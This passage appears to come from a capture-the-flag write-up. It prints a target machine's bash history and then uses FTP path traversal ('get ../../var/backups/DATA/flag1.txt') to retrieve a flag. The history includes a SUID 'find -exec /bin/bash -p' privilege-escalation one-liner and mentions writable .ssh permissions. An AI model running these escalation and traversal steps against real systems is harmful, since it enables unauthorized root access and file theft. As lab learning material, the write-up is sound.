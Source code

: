 ```
ps
ps -aux
exit
uftpd -o ftp=21 -n
exit
ps -aux
uftpd -o ftp=21
exit
ls
cd /home
ls
cd admin
dir
ls -la
uftpd -o ftp=21
cd /var
ls
cd backups
ls
ls -la
mkdir data
exit
whoami
exit
find . -exec /bin/bash -p \; -quit
find . -exec /bin/sh -p \; -quit
exit
vi /etc/ssh/sshd_config
exit
uftpd -o ftp=21
cd /tmp
ls
rm *
exit
ls
exit
```

This bash history tells use multiple things most important being that:
1. The .ssh folder inside /home/admin has write permissions which might be helpful in the future.
2. That there is a folder backups inside /var directory with some interesting data.


By running the following command we seem to have found the file containing the first flag:
```
ls ../../var/backups/DATA

-rw-r--r-- 1     0     0           23 May 10 09:12 flag1.txt
```

To retrieve the file we can execute something like:
```
get ../../var/backups/DATA/flag1.txt <path here>/flag1.txt
```
